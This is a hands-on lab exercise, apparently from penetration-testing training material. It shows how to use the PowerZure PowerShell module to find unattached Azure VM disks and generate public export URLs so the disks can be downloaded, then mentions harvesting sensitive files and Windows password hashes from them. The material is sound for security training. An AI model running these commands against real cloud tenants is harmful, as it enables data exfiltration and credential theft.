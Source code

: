 

### Hands-on exercise – exfiltrating VM disks using PowerZure
In this exercise, we will exploit the Disk Export feature of Azure VMs to exfiltrate unattached or reserved VM disks.

1. In a PowerShell console on your pentest VM, use the following commands to authenticate to Entra ID (Azure AD) and Azure as the **`Ava`**. Replace the **`USERNAME`** and **`PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file.

```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

2. Import the PowerZure module into your PowerShell session with the following commands.
```
cd "$env:SystemDrive\PentestTools\Azure\Attack\PowerZure"

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Force

Import-Module .\PowerZure.psm1
```

3. Obtain a list of all unattached VM disks using the following command:
```
Get-AzDisk | Where-Object {$_.DiskState -ne "Attached"} | Select Name, DiskState, Encryption
```

4. The output of the command should return all managed disks that are not currently attached to a running VM and their encryption status. In your output, you should see a disk that has a name starting with winvm02; make a note of the disk name as it will be needed in the next step.

5. In the PowerShell console, use the following command to generate a publicly accessible URL to export the disk identified in the previous step. Replace the <DISK_NAME_FROM_STEP_4> placeholder with the name of the disk that was identified in the previous step:
```
Get-AzureVMDisk -DiskName <DISK_NAME_FROM_STEP_4>
```

6. Get-AzureVMDisk is a PowerZure module that exploits the Disk Export feature to generate a link to download a VM's disk. You should get a URL from the command output. Make a note of this URL as it will be needed in the next step.

7. To download the disk, open a web browser and browse to the URL that you obtained in the previous step from the internet:
* This final step is completely optional. This disk can be mounted in another VM and parsed for sensitive files and Windows password hashes.